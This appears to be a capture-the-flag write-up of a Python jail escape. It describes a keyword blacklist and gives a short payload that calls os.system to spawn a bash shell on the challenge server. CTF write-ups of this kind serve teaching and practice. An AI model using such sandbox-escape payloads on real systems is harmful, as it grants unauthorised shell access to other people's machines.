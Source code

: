 ## Connect to the jail via nc

```sh
$ nc 143.198.219.171 3333
```

i saw it was a python jail escape challenge , so i tried multiple bypass payloads but noticed a similar pattern in every payload that its 
blacklisting `_` , `/` , `;` , `+` , `open` , `eval` , `exec` .

![](images/jail1.png)


so i tried something really simple payload using `os` module

Payload : 
```py
import os
os.system("bash")
```

![](images/jail2.png)

& bingo it gave us a normal bash shell , which means we escaped the python environment , next just cat the flag out :)
